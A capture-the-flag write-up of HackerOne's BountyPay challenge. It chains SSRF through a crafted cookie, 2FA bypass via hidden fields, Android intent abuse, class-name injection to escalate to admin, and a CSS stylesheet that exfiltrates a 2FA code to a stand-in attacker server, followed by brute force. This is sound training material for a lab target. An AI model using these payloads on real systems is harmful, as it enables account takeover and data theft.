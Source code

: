 # BountyPay CTF Writeup
CTF Page: https://hackerone.com/h1-ctf/
My writeup is also available on HackerOne: https://hackerone.com/reports/895780

# The Competition Begins!
The tweet announces the CTF challenge. Looks like we will need to find a way to process some payments.

<img src="images/intro-tweet.PNG" width="50%">

# Initial Exploring
Reading up on the extended description at https://hackerone.com/h1-ctf/ reveals that the target of this competition are the domains within `*.bountypay.h1ctf.com`. 

Scanning for available subdomains revealed:
- https://bountypay.h1ctf.com
- https://app.bountypay.h1ctf.com
- https://www.bountypay.h1ctf.com
- https://staff.bountypay.h1ctf.com
- https://api.bountypay.h1ctf.com
- https://software.bountypay.h1ctf.com

The description also mentioned that we should keep a look out on the HackerOne twitter for clues. I took a closer look through their feed.

![img](images/detective.jpg)

Right away, this particular retweet stood out:

<img src="images/retweet.PNG" width="50%">

Viewing their profile shows:

<img src="images/bp-profile.PNG" width="50%">

I wonder who they are following?

<img src="images/following.PNG" width="50%">

Sandra has a very interesting tweet!

<img src="images/first-day.PNG" width="50%">

Zoom, enhance! Her staff ID is clearly visible in this tweet. `STF:8FJ3KFISL3`. Thanks, Sandra, this should come in handy later. 

Scanning the barcode didn't seem to reveal anything. Best to move on for now and to look at the sites.

# Beginning the Journey
First things first, https://bountypay.h1ctf.com/.

![img](images/main-site.PNG)

The main site is pretty uneventful, just a splash screen with two external login pages, and some tumbleweeds.

The customer login is hosted on https://app.bountypay.h1ctf.com/, and the staff login is on https://staff.bountypay.h1ctf.com/.

The login pages were sanitized against SQL injection, and there was no way to create a new account. 

Well, maybe we need to explore some more.

![img](images/lets-go-exploring.jpg)

# Fuzz Faster U Fool
Time to do some directory bruteforcing to see if anything is available other than the login pages. I scanned for directories on the `app` domain.

```yaml
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
images                  [Status: 301, Size: 194, Words: 7, Lines: 8]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8] 
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1] 
.                       [Status: 301, Size: 194, Words: 7, Lines: 8]                  
.git                    [Status: 403, Size: 170, Words: 5, Lines: 7] 
cgit                    [Status: 403, Size: 170, Words: 5, Lines: 7]
```

That `.git` is very interesting. Trying to `GET` it returned a 403, but what about it's contents? 

I tried going to `/.git/config` in my browser, and it started downloading.

![img](images/squirtle.PNG)

# Finding a Way In

Let's see that git config up close:
```yaml
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/bounty-pay-code/request-logger.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
```

The GitHub account has one repository with one file in it, `logger.php`.

```php
<?php

$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);

file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```

Looks like they are logging their site activity to `bp_web_trace.log`. Let's grab that file off of `app`.

```
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```

Decoding the base64 entries shows:
```json
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```

Great, we've got our username and password. Let's login to `app`.

# Trying the Door

<img src="images/brian-oliver.PNG" width="50%">

Should be smooth sailing. Only it looks like they have one more security step...

<img src="images/2fa.PNG" width="50%">

Trying the code from the log didn't work, these codes are generated new every time.

Here, I used one of my favourite Burp Suite features, `Prominently highlight hidden fields`.

<img src="images/2fa-prominent.PNG" width="50%">

That is prominent enough for me. Looks like the frontend sends the backend both the challenge and the challenge answer. I can just set both to whatever I want. 

The challenge looks like an MD5 hash. I made up my own challenge answer, generated the hash of it, and then sent both. 

<img src="images/2fa-answer.PNG" width="50%">

Login successful.

# Looking For Greener Grass

![img](images/dashboard.PNG)

Well. Turns out our friend Brian Oliver kind of sucks. Loading all the statements from all the months and years that the UI provides (and the additional months and years that the backend supports but the UI doesn't show) turns up nothing. 

Looking around a bit, I was curious if I could gather any information from the cookie. The cookie was set to:
`eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9`. 

Decoding the base64 string returns: `{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}`.

I also noticed that every time I clicked to `Load Transactions`, it would fire off a request like:
`https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK/statements?month=01&year=2020`. 

It is interesting that the account id of my cookie also appears in this URL. From experimenting, I could see that editing the cookie to change the account id also changes the API request. We could potentially use an account id here that triggers a different endpoint.

## Investigating Possibilities of the API Domain
To exploit the api, we need to understand api. Going to `api.bountypay.h1ctf.com` shows:

![img](images/api.PNG)

The link is a cheeky redirect to google search what a rest api is. (https://api.bountypay.h1ctf.com/redirect?url=https://www.google.com/search?q=REST+API). Cheeky as it may be, this is an open redirect that we could make use of to perform a SSRF.

Exploring the endpoints from the browser (e.g. navigating to https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK), just returns `["Missing or invalid Token"]`. Looks like the main page with the redirect is all we have access to for now.

## Finding Our Target
The software domain looks like a likely target for a SSRF. It was rudely refusing access altogether due to our IP. 

![img](images/software.PNG)

## Performing the Attack
It is time to do some SSRF.

I set the cookie to the base64 encoded version of 
```json
{
    "account_id":"../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=",
    "hash":"de235bffd23df6995ad4e0930baac1a2"
}
```

The `../` characters navigate us to the base api endpoint in order to use the `/redirect` path. 

I had to use the `&disregard=` at the end in order to make the browser **not** interpret the rest of the imposed url (`/statements?month=01&year=2020"`) to mean "use the `/statements` endpoint".

The final URL looks like: `https://api.bountypay.h1ctf.com/api/accounts/../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=/statements?month=01&year=2020`

With this request we are able to connect to the `software` domain and see...another login page. At least this time we are able to access it instead of just being given a 401.

# These Are the Droids You Are Looking For
I scanned to see what directories are available on the `software` domain without being logged in.

```json
{
    "account_id": "../../redirect?url=https://software.bountypay.h1ctf.com/FUZZ&disregard=",
    "hash": "de235bffd23df6995ad4e0930baac1a2"
}
```

It turned up a folder, `uploads`. This page was a directory listing containing a file `BountyPay.apk`. Navigating my browser to https://software.bountypay.h1ctf.com/uploads/BountyPay.apk downloaded the application.

# Dreaming of Electric Sheep
![img](images/part-one-activity.PNG)

Loading the application lets us put in a username and twitter name, and then it displays a blank page. Well, okay. Perhaps if we decompile the source code we can find something interesting.

![img](images/pc.png)

The code is split into:

- `PartOneActivity.java`
- `PartTwoActivity.java`
- `PartThreeActivity.java`

## PartOneActivity
The blank screen we saw earlier was the first activity in the list. Looking at the source code, I found the trigger for starting the second activity:

```java
String firstParam = getIntent().getData().getQueryParameter("start");
if (firstParam != null && firstParam.equals("PartTwoActivity") && settings.contains(str)) {
    String str2 = "";
    String user = settings.getString(str, str2);
    Editor editor = settings.edit();
    String twitterhandle = settings.getString("TWITTERHANDLE", str2);
    editor.putString("PARTONE", "COMPLETE").apply();
    logFlagFound(user, twitterhandle);
    startActivity(new Intent(this, PartTwoActivity.class));
}
```

Intents are messages instructing that you want an action to be be performed. This includes launching activities (screens of the app).

From the code it looks like we can slide into part 2 if we just launch part one with the proper parameters (`PartTwoActivity` = `start`). We can launch customized intents with the debugger program, ADB:

```bash
generic_x86_arm:/ $ am start -n "bounty.pay/bounty.pay.PartOneActivity" -a android.intent.action.VIEW -d one://part?start=PartTwoActivity
Starting: Intent { act=android.intent.action.VIEW dat=one://part?start=PartTwoActivity cmp=bounty.pay/.PartOneActivity }
```

This immediately triggers part 2, which welcomes us with...another blank screen.

## PartTwoActivtiy
The first thing to stand out in the code was this snippet:

```java
Uri data = getIntent().getData();
String firstParam = data.getQueryParameter("two");
String secondParam = data.getQueryParameter("switch");
if (firstParam != null && firstParam.equals("light") && secondParam != null && secondParam.equals("on")) {
    editText.setVisibility(0);
    button.setVisibility(0);
    textview.setVisibility(0);
}
```

There are several components that become visible with the right intent parameters.

Launching with ADB:
```bash
generic_x86_arm:/ $ am start -n "bounty.pay/bounty.pay.PartTwoActivity" -a android.intent.action.VIEW -d two://part?two=light\&switch=on
```

The lights are on now!

![img](images/part2-revealed.png)

Inputting the string into the `Header value` box didn't do anything. 

The string looks like an MD5 hash. Decrypting it uncovers an original value of `Token`. Still, inputting `Token` would not move to the next section. Hmm, time to inspect more of the code.

The button click listener was performing this logic:

```java
String value = (String) dataSnapshot.getValue();
SharedPreferences settings = PartTwoActivity.this.getSharedPreferences(PartTwoActivity.KEY_USERNAME, 0);
Editor editor = settings.edit();
String str = post;
StringBuilder sb = new StringBuilder();
sb.append("X-");
sb.append(value);
if (str.equals(sb.toString())) {
    String str2 = "";
    PartTwoActivity.this.logFlagFound(settings.getString("USERNAME", str2), settings.getString("TWITTERHANDLE", str2));
    editor.putString("PARTTWO", "COMPLETE").apply();
    PartTwoActivity.this.correctHeader();
    return;
}
Toast.makeText(PartTwoActivity.this, "Try again! :D", 0).show();
```

Well, looks like we need to have a `X-` prefix to the value that goes in. Inputting `X-Token` gets us through to part 3.

## PartThreeActivity
Blank screens don't phase me anymore, let's dive into the code.

```java
Uri data = getIntent().getData();
String firstParam = data.getQueryParameter("three");
String secondParam = data.getQueryParameter("switch");
String thirdParam = data.getQueryParameter("header");
byte[] decodeFirstParam = Base64.decode(firstParam, 0);
byte[] decodeSecondParam = Base64.decode(secondParam, 0);
final String decodedFirstParam = new String(decodeFirstParam, StandardCharsets.UTF_8);
final String decodedSecondParam = new String(decodeSecondParam, StandardCharsets.UTF_8);
```

Ok, three parameters. We need to send in the first two base64 encoded this time.

```java
String value = (String) dataSnapshot.getValue();
if (str != null && decodedFirstParam.equals("PartThreeActivity") && str2 != null && decodedSecondParam.equals("on")) {
    String str = secondParam2;
    if (str != null) {
        StringBuilder sb = new StringBuilder();
        sb.append("X-");
        sb.append(value);
        if (str.equals(sb.toString())) {
            editText2.setVisibility(0);
            button2.setVisibility(0);
            PartThreeActivity.this.thread.start();
        }
    }
}
```

And sending in the correct parameters will once again make some items visible. It also starts a thread, but we can come back to that.

Remembering to base64 the first two parameter values (`PartThreeActivity`, `on`), we can turn on the lights for the second time today:

```bash
am start -n "bounty.pay/bounty.pay.PartThreeActivity" -a android.intent.action.VIEW -d three://part?three=UGFydFRocmVlQWN0aXZpdHk\=\&switch=b24\=\&header=X-Token
```

![img](images/part-three-activity.PNG)

One more input box that we need to fill with the correct value. Let's take a closer look now at what that thread was that we started:

```java
this.thread = new Thread(new Runnable() {
public void run() {
    PartThreeActivity.this.performPostCall(PartThreeActivity.this.getSharedPreferences(PartThreeActivity.KEY_USERNAME, 0).getString("TOKEN", ""));
}
});
```

It performs a POST call when we use the right arguments. Let's see if we can intercept this to find the answer to this section.

I managed to find a particular message sent from the app that caught my attention!

```json
{
    "t": "d",
    "d": {
        "b": {
            "p": "X-Token",
            "d": "8e9998ee3137ca9ade8f372739f062c1"
        },
        "a": "d"
    }
}
```

The X-Token makes an appearance! Submitting it gets us clear to the end of the stage.

![img](images/congrats-activity.png)

We should be able to use this X-Token to authenticate with the BountyPay API.

# Rummaging Through API
I tried again to load the accounts endpoint from before, but this time sending the X-Token as a header.

https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK

This time I got back:
```json
{
    "account_id": "F8gHiqSdpK",
    "owner": "Mr Brian Oliver",
    "company": "BountyPay Demo "
}
```

We're in! Once again, time to scan to see what endpoints are available other than `accounts`.

Some directory bruteforcing came up with this endpoint: https://api.bountypay.h1ctf.com/api/staff/

Doing a GET request got back:
```json
[
    {
        "name": "Sam Jenkins",
        "staff_id": "STF:84DJKEIP38"
    },
    {
        "name": "Brian Oliver",
        "staff_id": "STF:KE624RQ2T9"
    }
]
```

We know about Brian, and his lack of access to useful statements. Sam Jenkins is a newcomer, but we don't have a way to access his login information. 

I tried to send a POST request to create a staff account for myself. The api helpfully let me know that I needed to provide a `staff_id`, and `name`. Still, no matter what I put, the api would say the `staff_id` was invalid.

Looking at the two staff members again, I noticed that our social media guru, Sandra, was not there. I suppose she hasn't started work yet, and they haven't set up her account. Maybe we can push her start date up a bit and make her account for her.

![img](images/staff.png)

Welcome to the team, Sandra!

# Masquerading As Sandra
![img](images/hacker.png)

Using my newfound identity, I went over to https://staff.bountypay.h1ctf.com.

![img](images/staff-dashboard.PNG)

After looking around a bit, I realized that even though Sandra is a staff member, she is not an admin, and some site content remained hidden. Maybe we can find a way to boost the account into being one.

The site has a report feature where you can tell the admins about an issue with a page. 

![img](images/report.PNG)

Clicking the button sends a base64 encoded string of the URL of the current page you are on. The wording that the admins will look at the page makes me think that we can design a malicious page that promotes us to admin when viewed by an admin.

There was a file, `website.js` that piqued my interest. Looking at it, function by function:
```javascript
$('.upgradeToAdmin').click(function () {
	let t = $('input[name="username"]').val();
	$.get('/admin/upgrade?username=' + t, function () {
		alert('User Upgraded to Admin');
	});
}), 
```
Well, this is interesting! Looks like there is a button to upgrade users to administrators. This button doesn't appear anywhere on my UI, looks as though you have to be an admin to see it. This does reveal though what endpoint you have to hit to get the functionality. 

Trying `/admin/upgrade?username=sandra.allison` manually just returned an error saying I didn't have permission to do this. Reporting this URL didn't change anything. (The prompt did say any reports in the `/admin` directory would be ignored.) They even were filtering out obfuscating the path by doing things like `/pls-let-me-in/../admin/upgrade?username=sandra.allison`. Let's look at what else is in `website.js` for now.

```javascript
$('.tab').click(function () {
	return $('.tab').removeClass('active'), $(this).addClass('active'), $('div.content').addClass('hidden'), $('div.content-' + $(this).attr('data-target')).removeClass('hidden'), !1;
}), 
```
This powers the tab buttons on the site. When you click a tab it will hide the current site content and unhide the content related to the current tab. Not too interesting.

```javascript
$('.sendReport').click(function () {
	$.get('/admin/report?url=' + url, function () {
		alert('Report sent to admin team');
	}), $('#myModal').modal('hide');
}), 
```
We see the logic for the report sending here. It shows the URL for reporting urls here. We can just call `/admin/report?url=` directly now.

```javascript
document.location.hash.length > 0 && 
    (
        '#tab1' === document.location.hash && $('.tab1').trigger('click'), 
        '#tab2' === document.location.hash && $('.tab2').trigger('click'), 
        '#tab3' === document.location.hash && $('.tab3').trigger('click'), 
        '#tab4' === document.location.hash && $('.tab4').trigger('click')
    );
```
This is the handling for anchor hashes. For example if I go to https://staff.bountypay.h1ctf.com#tab2, it will automatically click the second tab for me. This might come in handy later.

I noticed also that the code talks about a tab4, but our UI does not have a 4th tab. Trying to go to it doesn't work. I'm assuming that there is one more tab that only the admins have access to.

## Profile Shenanigans
The first thing to really stand out was the profile updater tool. 

![img](images/profile.PNG)

I tried updating my username to different values to try and check for XSS. No luck, both inputs are being sanitized, and symbols are not allowed.

By intercepting the request, I was able to see the the radio buttons allowed me to change the avatar between the values: `avatar`, `avatar1`, `avatar2`, `avatar3`.

The avatar value gets inserted into a div like this:
```html
<div style="margin:auto" class="avatar1"></div>
```

And then the CSS adds the image to the div (urls removed by me to save space):
```css
.avatar {
    width:64px;
    height:64px;
}
.avatar1 {
    background-image:url("");
}
.avatar2 {
    background-image:url("");
}
.avatar3 {
    background-image:url("");
}
```

We are limited to only using regular letters and number characters as our input. That should be enough to do some damage though, as we are able to write class names right into the page, and we know `website.js` will run functionality on elements with certain class names.

The most obvious contender for classname is `upgradeToAdmin`. To refresh our memory, here is the function from `website.js` again below:
```javascript
$('.upgradeToAdmin').click(function () {
	let t = $('input[name="username"]').val();
	$.get('/admin/upgrade?username=' + t, function () {
		alert('User Upgraded to Admin');
	});
}), 
```

With the class set, the page renders with a div looking like this:
```html
<div style="margin:auto" class="upgradeToAdmin"></div>
```

And now, when I click on our avatar, I can see a request being made to `https://staff.bountypay.h1ctf.com/admin/upgrade?username=undefined`. We'll need to come back to the username being undefined, but this is a promising start!

Having the admin need to click the avatar to run the exploit is not good enough though. We will want it to happen automatically as soon as the page is opened.

There is some other functionality related to clicking, which I will paste again below:
```javascript
document.location.hash.length > 0 && 
    (
        '#tab1' === document.location.hash && $('.tab1').trigger('click'), 
        '#tab2' === document.location.hash && $('.tab2').trigger('click'), 
        '#tab3' === document.location.hash && $('.tab3').trigger('click'), 
        '#tab4' === document.location.hash && $('.tab4').trigger('click')
    );
```

Ok. If we give our image a specific tab class, and then go to a url with an anchor hash of the same value, we can get our avatar to be auto clicked.

One more profile update, and we have:

```html
<div style="margin:auto" class="upgradeToAdmin tab3"></div>
```

Now, when we navigate to https://staff.bountypay.h1ctf.com?template=home#tab3, we are brought directly to the profile tab, and we instantly have a request made in the background to `https://staff.bountypay.h1ctf.com/admin/upgrade?username=undefined`.

Now we are cooking.

## Getting the Username
One thing is still outstanding though. We need to make sure our page sends our username, `sandra.allison`. The code in the `upgradeToAdmin` function is sending the value of `input[name="username"]` as the username. None of the tabs have an input box with that name. 

There is, however, an input box with that name on the login page. If we could render the login template at the same time as the profile template (containing our avatar), we could have the request send properly.

The typical URL looks like `?template=VALUE` where value is one of `login`, `home`, `ticket`, or `admin` (and we don't have access to admin). We can send in an array of templates by forming our URL like `?template[]=home&template[]=login`.

Putting everything together, we get: https://staff.bountypay.h1ctf.com/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab3

We need the login template to have access to the username field, the ticket template to have access to our avatar (from the admin's point of view), and the tab in order to trigger our click.

I directly reported this URL to `/admin/report?url=`, base64 encoded. Now, when refreshing the page, we can see our unlimited administrator powers!

# Unlimited Administrator Powers
![img](images/admin-tab.png)

Marten Mickos, the account we need to access to pay the bounties! Let's log into the app domain and see if we can find some statements.

Logging in gives us another 2 factor challenge.

<img src="images/2fa.PNG" width="50%">

Pff, easy, just look at the hidden fields, make my own challenge and answer, we've done this before.

Once more, we are greeted with the dashboard of no statements. I iterated through all possible year / month combinations until 05-2020 revealed some transactions. 

![img](images/pay-bounty.png)

Clicking to pay brings up another 2 factor challenge.

<img src="images/2fa-css.PNG" width="50%">

It is weird that we are able to send a css stylesheet to the 2 factor app. Let's go next and see what happens.

<img src="images/2fa-2.PNG" width="50%">

Our usual party trick of manually setting the challenge and answer doesn't work this time! Looks like this works completely differently. It is also interesting that we have a timeout now, and have to complete the challenge within 2 minutes.

# Attacking With a Stylesheet
After some looking around, it seems like our only weapon for this final battle is a CSS stylesheet. The default stylesheet didn't contain any useful information.

I did some Google searching to see what kind of stylish attacks could be pulled off with nothing but CSS. This reference was a big help: https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense.

The gist of it is, you can determine what content is on a page by applying a style to it, and sending a network request as part of the style. We can assume that the 2 factor code is displayed in an `input` type element for easy selecting by the user.

As a little test, we could create an HTML file:
```html
<input value="secret">
```

and a CSS file:
```css
input[value="^s"] { background-image: url("<my-server>/s"); }
```

This style applies to all input elements that have a value beginning with `s`. When we open the HTML file, the server will receive a request for `s`. It won't know what to do with that request, but that doesn't matter. We received a piece of information that the input begins with `s`. The blog post goes into a lot of detail into how to create a css file that can go through all the permutations needed to work out the full input. Let's move on for now, back to the challenge at hand.

I generated a stylesheet looking like this to find out what the 2 factor code started with:
```css
input[value^="1"] { background-image: url("<my-server>/1"); }
input[value^="2"] { background-image: url("<my-server>/2"); }
input[value^="3"] { background-image: url("<my-server>/3"); }
...
input[value^="A"] { background-image: url("<my-server>/A"); }
input[value^="B"] { background-image: url("<my-server>/B"); }
input[value^="C"] { background-image: url("<my-server>/C"); }
...
input[value^="d"] { background-image: url("<my-server>/d"); }
input[value^="e"] { background-image: url("<my-server>/e"); }
input[value^="f"] { background-image: url("<my-server>/f"); }
...
input[value^="!"] { background-image: url("<my-server>/!"); }
input[value^="@"] { background-image: url("<my-server>/@"); }
input[value^="#"] { background-image: url("<my-server>/#"); }
...
```

After submitting my stylesheet, I got some pings on my server!

![img](images/server-css.PNG)

7 different responses. Note that if multiple styles apply to an object, only the last one gets used. That means that if I got 7 responses, there are 7 different input boxes on the page.

I wrote a quick python script to generate all the permutations of those 7 characters:
```python
from itertools import permutations

file = open('payloads.txt', 'a')
alphabet = 'QKDCux5'
for perm in permutations(alphabet, len(alphabet)):
    file.write(f'{"".join(perm)}\n')
file.close()
```

We have our wordlist now, next thing to do is to hammer the server with these thousands of requests before the time limit is up! 

![img](images/flag.PNG)

And that's a wrap!

![img](images/sleep.png)